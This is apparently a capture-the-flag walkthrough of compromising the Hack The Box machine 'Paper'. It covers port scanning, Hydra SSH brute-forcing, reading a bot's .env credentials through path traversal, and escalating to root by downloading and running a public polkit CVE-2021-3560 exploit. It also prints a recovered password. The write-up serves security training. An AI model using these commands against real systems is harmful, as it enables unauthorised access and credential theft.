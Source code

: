 # Paper
### A demonstration walkthrough of a pen test process using HTB's Paper with some normal dead ends as an example.  

*Note* /etc/hosts appended with "10.10.11.143 paper.htb"
Basic scan of all ports 
```
nmap -p- paper.htb
```

The preferred way to scan.  A fast scan of all ports then a deeper scan for services on the found ports  
```
ports=$(nmap -p- --min-rate=1000 -T4 paper.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports paper.htb
nikto -h paper.htb
```
Interesting Results (NMAP):  
- Running OpenSSH 8.0 and Apache httpd 2.4.37 on CentOS  
Interesting Results (NIKTO):   
- OSVDB-877: TRACE and missing common protection headers.  Set this aside unless we user traffic to escalate.
- Uncommon header 'x-backend-server' found, with contents: office.paper
- Retrieved x-powered-by header: PHP/7.2.24

**DEAD END:** Browsing site shows only the default install page, nothing interesting in source, HTTPS: fails cert validation.  
**DEAD END:**  Using Hydra to guess common username/passwords for SSH.  Trying a small set of default username and password combinations work more often in real world vs. simulations.  
```
echo 'root\nuser\nadmin\nadministrator\ndevelopment\ntest\napache\noffice\npaper' > paper.htb.usernames
echo 'password\nPassword\nPassw0rd\nPassw0rd!' > paper.htb.passwords
hydra -L paper.htb.usernames -P paper.htb.passwords -e nsr ssh://paper.htb
```
**DEAD END:** Using dirbuster results were only standard Apache files

Added backend server to /etc/hosts:  "10.10.11.143 office.paper"
```
nikto -h office.paper
```
Interesting results:
- Link to WordPress API docs: https://api.w.org
- 'x-redirect-by' found, with contents: WordPress

Browsed "office.paper" added a few more possible username to hyrda files.  Following chat noticed command about unsafe draft content.

On Parrot
```
docker run -it --rm wpscanteam/wpscan --url http://office.paper
```
On KALI
```
wpscan --url http://office.paper
```
WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
```
searchsploit wordpress 5.2.3
cat /usr/share/exploitdb/exploits/multiple/webapps/47690.md
```

Browsed to http://office.paper/?static=1  
Draft leads to a chat server and secret registration page: http://chat.office.paper/register/8qozr226AhkCHZdyY  

Added "10.10.11.143 chat.office.paper" to /etc/hosts
**DEAD END:** Nikto and dirbuster on discovered hosts didn't yield any new results

I read the blog posts. Fun "The Office" references lots of names to add to Hydra lists.
Dwight setup a bot, seems like he is the admin.

The bot will take commands.
**DEAD END** Trying command injection, nothing I tried worked.  Seems I'm limited to 'list' and 'file' commands
**Comment"" First pass on enum drew a blank beyond the fact that Dwight owns the bot.

#### Rabbit Hole
Should Dwight + "The Office" + password be the way?
Outtakes:   
[YouTube](https://www.youtube.com/watch?v=yXPrp0AAvZ4)  
[YouTube](https://www.youtube.com/watch?v=dtGCC-DleX0)  
[YouTube](https://www.youtube.com/watch?v=HkmJFjbsIgM)  
[YouTube](https://www.youtube.com/watch?v=8zfNfilNOIE)  
[YouTube](https://www.youtube.com/watch?v=F1wodhJ-qFo)  

Geez, lots of ideas, lots of real bad password practices. Hydra failed, zero traction.

#### Better enum 
Googled RocketChat configuration led to using environment variables. 
A second pass of enum landed on "file ../../dwight/hubot/.env"  
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23  
Added to hydra files

```
hydra -L paper.htb.usernames -P paper.htb.passwords -e nsr ssh://paper.htb
```
[DATA] attacking ssh://paper.htb:22/
[22][ssh] host: paper.htb   login: dwight   password: Queenofblad3s!23
```
ssh dwight@paper.htb
```

### USER SUCCESS!

# Try LinPEAS to find escalation
[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
```
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
scp linpeas.sh dwight@office.paper:linpeas.sh
```

Running linpeas.sh shows vulnerables to  CVE-2021-3560

```
curl https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py > exploit.py
scp exploit.py dwight@paper.htb:.
ssh dwight@paper.htb
```
```
python3 exploit.py
```

### ROOT SUCCESS!

